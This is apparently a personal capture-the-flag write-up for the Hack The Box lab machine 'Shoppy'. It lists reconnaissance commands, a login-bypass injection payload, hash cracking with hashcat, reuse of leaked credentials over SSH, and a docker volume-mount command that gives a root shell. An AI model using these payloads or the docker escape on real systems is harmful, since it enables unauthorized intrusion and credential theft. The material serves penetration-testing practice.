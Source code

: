 # Shoppy

[Link]
[Solution](https://www.youtube.com/watch?v=3UGIfoIZw6Y)


Goal: using dirsearch, gobuster and seclists to find hidden subdomain and 
    login

## Commands

```bash

%% 1. use nmap and add it to etc/hosts
nmap -sC -sV 10.10.11.180
sudo vi /etc/hosts > 10.10.11.180 shoppy.htb

2. use dirsearch to find directory
python3 dirsearch.py -u http://shoppy.htb
gobuster vhost -w SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 -u http://shoppy.htb

3. We find that there is a page called `admin`
http://shoppy.htb/admin

4. go into database using SQL injection
admin'||'1==1'

5. search for 'admin' to download json file with hashed password

id: "62db0e93d6d6a999a66ee67a"
username: "admin"
password: 23c6877d9e2b564ef8b32c3a23de27b2

id: "62db0e93d6d6a999a66ee67b"
username: "josh"
password: 6ebcea65320589ca4f2f1ce039975995

echo "6ebcea65320589ca4f2f1ce039975995" > hash
hashcat -m 0 -a 0 -o out.txt --force hash rockyou.txt
cat out.txt # 6ebcea65320589ca4f2f1ce039975995:remembermethisway

6. Go to `mattermost.shoppy.htb`

Hey @josh,

For the deploy machine, you can create an account with these creds :
username: jaeger
password: Sh0ppyBest@pp!

7. ssh into these credentials
ssh jaeger@10.10.11.180

8. search for user and password
cat user.txt # "c5a6a6999d924b83573a16c04d4ac363"

In index.js:
mongoUri = 'mongodb://127.0.0.1/shoppy';
Mongo secret: DJ7aAdnkCZs9DZWx

>>> mongo "mongodb://127.0.0.1/shoppy"
>>> show dbs
>>> 

In sudo -u deploy /home/deploy/password-manager
Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported

Deploy Creds :
username: deploy
password: Deploying@pp!

>>> ssh deploy@10.10.11.180

9. Docker exploit root

>>> docker run -v /:/mnt --rm -it alpine chroot /mnt sh

cat root.txt
016f521bffe4933fdeea8f581cc1c31a

```

## To remember

- `did no follow redirect` on nmap: add ip address to `/etc/hosts`
- when we have a login page, try SQL injection: `admin'||'1==1`
- we can use `hashcat` with `rockyou.txt` to find password from hash
- Docker exploit root: `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

## Ressources

- https://infosecwriteups.com/cracking-hashes-with-hashcat-2b21c01c18ec
- 

